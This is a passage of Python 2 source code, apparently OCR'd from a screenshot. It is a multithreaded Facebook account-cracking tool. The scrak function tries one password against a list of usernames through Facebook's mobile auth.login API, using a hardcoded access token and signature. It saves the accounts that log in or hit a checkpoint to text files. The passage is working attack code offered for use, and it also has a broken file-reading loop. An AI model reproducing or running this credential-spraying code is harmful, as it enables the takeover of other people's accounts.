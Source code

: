                 zedd = threading.Thread(target=scrak, args=())
                zedd.start()
                threads.append(zedd)

            for zedd in threads:
                zedd.join()

        except IOError:
            print '\x1b[1;91m[!] File not found'
            raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')
            menu_hack()


def scrak():
    global back
    global berhasil
    global cekpoint
    global gagal
    global up
    try:
        buka = open(idlist, 'r')
        up = buka.read().split()
        while file:
            username = file.readline().strip()
            url = 'https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + username + '&locale=en_US&password=' + passw + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6'
            data = urllib.urlopen(url)
            mpsh = json.load(data)
            if back == len(up):
                break
            if 'access_token' in mpsh:
                bisa = open('Berhasil.txt', 'w')
                bisa.write(username + ' | ' + passw + '\n')
                bisa.close()
                berhasil.append('\x1b[1;97m[\x1b[1;92m\xe2\x9c\x93\x1b[1;97m] ' + username + ' | ' + passw)
                back += 1
            else:
                if 'www.facebook.com' in mpsh['error_msg']:
                    cek = open('Cekpoint.txt', 'w')
                    cek.write(username + ' | ' + passw + '\n')
                    cek.close()
                    cekpoint.append('\x1b[1;97m[\x1b[1;93m\xe2\x9c\x9a\x1b[1;97m] ' + username + ' | ' + passw)
                    back += 1
                else:
                    gagal.append(username)
                    back += 1
            sys.stdout.write('\r\x1b[1;91m[\x1b[1;96m\xe2\x9c\xb8\x1b[1;91m] \x1b[1;92mCrack    \x1b[1;91m:\x1b[1;97m ' + str(back) + ' \x1b[1;96m>\x1b[1;97m ' + str(len(up)) + ' =>\x1b[1;92mLive\x1b[1;91m:\x1b[1;96m' + str(len(berhasil)) + ' \x1b[1;97m=>\x1b[1;93mCheck\x1b[1;91m:\x1b[1;96m' + str(len(cekpoint)))
            sys.stdout.flush()
